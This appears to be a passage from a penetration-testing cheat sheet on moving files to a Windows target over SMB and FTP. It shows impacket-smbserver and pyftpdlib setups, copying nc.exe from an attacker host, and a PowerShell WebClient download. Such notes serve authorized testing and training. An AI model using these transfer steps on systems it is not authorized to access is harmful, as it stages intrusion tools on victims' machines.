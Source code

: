 
### Windows over SMB

#### Create an SMB server
```Shell
impacket-smbserver share -smb2support /tmp/smbshare
```

#### Copy a file from the SMB server onto the Windows machine
```cmd.exe
copy \\192.168.220.133\share\nc.exe
```

#### Create an SMB server with username and password (necessary if Windows machine blocks it w/o authentication)
```Shell
impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

#### Mount the SMB share onto the Windows Machine
```cmd.exe
net use n: \\192.168.220.133\share /user:test test
```


### Windows over FTP

#### Installing pyftpdlib
```Shell
pip3 install pyftpdlib
```

#### Set up a Python3 FTP Server on port 21 (port 2121 is default)
```Shell
python3 -m pyftpdlib --port 21
```

#### Download the file over FTP via PowerShell
```PowerShell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
From Linux to Windows

#### Create a Command File for the FTP Client and Download the Target File. 
```cmd.exe
echo open 192.168.49.128 > ftpcommand.txt
```

```cmd.exe
echo USER anonymous >> ftpcommand.txt
```

```cmd.exe
echo binary >> ftpcommand.txt
```
